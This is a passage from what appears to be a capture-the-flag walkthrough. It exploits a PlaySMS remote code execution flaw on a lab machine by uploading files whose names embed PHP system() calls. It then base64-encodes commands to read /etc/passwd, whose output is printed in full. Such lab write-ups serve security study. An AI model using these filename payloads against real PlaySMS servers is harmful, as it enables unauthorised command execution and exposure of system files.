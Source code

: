 And after doing a little bit of enumeration, I've found exploit available for this service. [PlaySMS Remote Code Execution](https://www.exploit-db.com/exploits/42003/ "PlaySMS Remote Code Execution"), which we can use to attack our target.

{% highlight text %}
http://10.0.2.5/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_sendfromfile&op=list
{% endhighlight %}

In order to run commands, we have to create a file with **php** command in title, just like this example.

{% highlight bash %}
touch "<?php system('uname -a'); dia();?>.php"
Uploaded file: Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
{% endhighlight %}

It's working! But there's one problem - names of our files cannot contain **/** characters, as they're restriced by the filesystem. One workaround would be to encode the command with **base64** and then decode the string through php function.

{% highlight bash %}
root@kali:~/Downloads# echo "cat /etc/passwd" | base64
Y2F0IC9ldGMvcGFzc3dkCg==
touch "<?php system(base64_decode('Y2F0IC9ldGMvcGFzc3dkCg==')); dia();?>.php"
{% endhighlight %}

Will it work?

{% highlight text %}
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
colord:x:103:108:colord colour management daemon,,,:/var/lib/colord:/bin/false
lightdm:x:104:111:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:105:114::/nonexistent:/bin/false
avahi-autoipd:x:106:117:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:107:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/home/usbmux:/bin/false
kernoops:x:109:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:110:119:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:111:122:RealtimeKit,,,:/proc:/bin/false
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
saned:x:114:123::/home/saned:/bin/false
touhid:x:1000:1000:touhid,,,:/home/touhid:/bin/bash
mysql:x:115:125:MySQL Server,,,:/nonexistent:/bin/false
{% endhighlight %}

